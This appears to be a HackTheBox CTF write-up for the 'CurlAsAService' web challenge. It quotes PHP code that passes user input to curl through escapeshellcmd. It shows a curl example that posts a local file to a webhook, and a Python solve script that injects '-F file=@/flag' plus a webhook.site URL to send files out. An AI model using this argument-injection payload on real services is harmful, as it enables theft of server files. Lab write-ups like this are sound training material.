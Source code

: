 ```yaml
---
title: CurlAsAService
date: 2023-12-12 20:00:16 +0800
categories: [Hackthebox-Challenges, CurlAsAService]
tags: [htb, ctf, pentesting, web, code-auditing]
---
```



<img src="../../assets/global/banner.png" alt="banner image">

## CurlAsAService is a PHP chalenge on Hackthebox

### Description:

In this challenge we have an input that takes a url and pass it to curl command and retrieves the output back,\
the problem is we can use arguments injection to trigger an `LFI` vulnerability.

### Source code:
<a href='https://mega.nz/file/jS4QwD6D#V5YaE96uDyiP2igv0uO81EN_kFTh3FG8Xso_QL-JE5w'>Download source code</a>

*zip password: `hackthebox`*

<img src="../../assets/caas/caas.png" alt="caas image">


### Vulnerable code:
```php
class CommandModel
{
    public function __construct($url)
    {
        echo $url ."\n";
        echo escapeshellcmd($url) ."\n";
        $this->command = "curl --proto =http,https -sSL " . escapeshellcmd($url) . " 2>&1";
        echo $this->command . "\n";
    }

    public function exec()
    {
        $output = shell_exec($this->command);
        return $output;
    }
}
```

As you can see here, it uses `escapeshellcmd` to escape characters like `; | && ` etc.. .\
but since it passes out input to `CURL` arguments we can treat `CURL` to send us any file in the system.

example:
```shell
curl -F file=path/to/file http://<your webhook> # this url will receive a post request with the file
```



### Solve:

```python

import requests

def solve(webhook, file_path):
    
	headers = {'Content-Type': 'application/x-www-form-urlencoded'}
	data = {
     	'ip': f"-F file=@{file_path} {webhook}".encode('utf-8')
	}
	

	try:
		res = requests.post('http://localhost:1337/api/curl', headers=headers, data=data)
		if res.status_code == 200:
			print("Check you web hook if the file exist you'll find it there")
		else:
			print("Failed to resolve")
			print(res.status_code, res.text)
	except requests.exceptions as e:
		print(e)
 
 
if __name__ == '__main__':
    webhook = 'https://webhook.site/<webhook-uid>' # change this with your webhook url
    file_path = '/flag' # here put your target file path
    solve(webhook, file_path)

```


